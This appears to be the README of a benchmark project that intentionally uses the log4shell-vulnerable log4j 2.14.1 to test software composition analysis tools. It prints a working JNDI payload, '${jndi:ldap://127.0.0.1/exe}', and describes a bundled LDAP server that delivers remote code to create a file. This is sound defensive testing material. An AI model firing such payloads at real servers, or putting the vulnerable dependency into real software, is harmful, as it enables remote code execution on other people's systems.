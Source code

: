 ## log4shell true positive

This is a simple web project with a log4shell vulnerability. 
The project defines a simple `scabench.HelloWorldService` get service returning a plain text string `hello world`.
The service does not expect parameters, and if parameters are encountered, an error 
is logged. 

The vulnerable dependency is [org.apache.logging.log4j:log4j-core:2.14.1](https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-core/2.14.1), the vulnerability is [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). 


### Demonstrating the Vulnerability using a Test 

This requires unix or macos. It is easy to port this project to windowsm, 

A unit test is provided to demonstrate the vulnerability. The test requires a ldap server providing vulnerable code, the respective executable is provided by the project, it is defined in a separate project [https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept](https://github.com/jensdietrich/Log4J-RCE-Proof-Of-Concept) based on [https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept](https://github.com/HyCraftHD/Log4J-RCE-Proof-Of-Concept).
The test fixture will handle startup and shutdown of the ldap server.

The test will create a file `foo` based on a command encoded embedded in the code of the ldap server the log4j connects to
(`touch foo`). This server can be controlled by an attacker. 

To run the test build the project with `mvn test`.

### Demonstrating the Vulnerability running the Application

1. start the embedded web server: `mvn jetty:run`
2. start the included the ldap server: `java -jar dodgy-ldap-server.jar` (the vulnerable copde will download Java code from this server)
3. point the browser to `http://localhost:8080/`, this site contains a pre-populated form with a malicious payload `${jndi:ldap://127.0.0.1/exe}`
4. submit this form
5. this will create a file `foo` on the server

### Running Software Composition Analyses

There are several sh scripts to run different analyses, result resports can be found in `scan-results`.

### Generating the SBOM

The `pom.xml` has a plugin to generate a [SBOM](https://www.cisa.gov/sbom) in [CycloneDX](https://cyclonedx.org/) format. 
To do this, run `mvn cyclonedx:makePackageBom`, the SBOM can be found in 
`target/` in `json` and `xml` format.

